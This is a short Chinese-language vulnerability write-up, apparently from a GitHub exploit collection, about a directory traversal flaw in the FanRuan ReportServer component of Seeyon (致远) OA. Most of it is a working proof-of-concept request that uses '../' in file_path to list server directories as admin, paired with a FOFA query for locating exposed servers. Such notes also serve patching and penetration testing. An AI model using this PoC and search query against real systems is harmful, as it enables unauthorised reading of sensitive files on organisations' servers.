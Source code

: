 # 致远OA 帆软组件 ReportServer 目录遍历漏洞

## 漏洞描述

致远OA 帆软组件 ReportServer接口存在目录遍历漏洞，攻击者通过漏洞可以获取服务器敏感信息

## 漏洞影响

```
致远OA 帆软组件
```

## FOFA

```
title="致远A8-V5协同管理软件 V6.1sp1"
```

## 漏洞复现

登录页面

![image-20220824142626725](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202208241426793.png)

验证POC

```
/seeyonreport/ReportServer?op=fs_remote_design&cmd=design_list_file&file_path=../&currentUserName=admin&currentUserId=1&isWebReport=true
```

![image-20220824142642510](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202208241426552.png)